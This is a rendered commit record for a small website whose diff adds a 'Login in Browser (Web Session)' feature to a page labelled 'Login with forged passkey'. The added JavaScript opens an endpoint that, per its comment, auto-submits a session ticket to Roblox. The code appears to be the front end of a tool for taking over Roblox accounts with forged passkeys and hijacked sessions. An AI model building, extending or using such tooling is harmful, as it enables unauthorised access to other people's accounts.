

Before and after one commit to unemployedz/oohnooo, a website: page public/index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (288-991 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add browser login section and functionality

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -32,10 +32,18 @@
     </section>
 
     <section>
-        <label>Login with forged passkey</label>
+        <label>Login with forged passkey (JSON)</label>
         <div class="row">
             <input id="login-id" type="text" placeholder="pk_...">
             <button onclick="login()">Login</button>
+        </div>
+    </section>
+
+    <section>
+        <label>Login in Browser (Web Session)</label>
+        <div class="row">
+            <input id="browser-login-id" type="text" placeholder="pk_...">
+            <button onclick="browserLogin()">Login Browser</button>
         </div>
     </section>
 
@@ -88,6 +96,14 @@
         out(await r.json());
     }
 
+    function browserLogin() {
+        const passkeyId = val('browser-login-id');
+        if (!passkeyId) return out('passkey id required');
+        // Opens a new tab that auto-submits the ticket to Roblox
+        window.open('/api/browser-login/' + encodeURIComponent(passkeyId), '_blank');
+        out('Opened new tab. Redirecting to Roblox...');
+    }
+
     async function view() {
         const passkeyId = val('view-id');
         if (!passkeyId) return out('passkey id required');
```
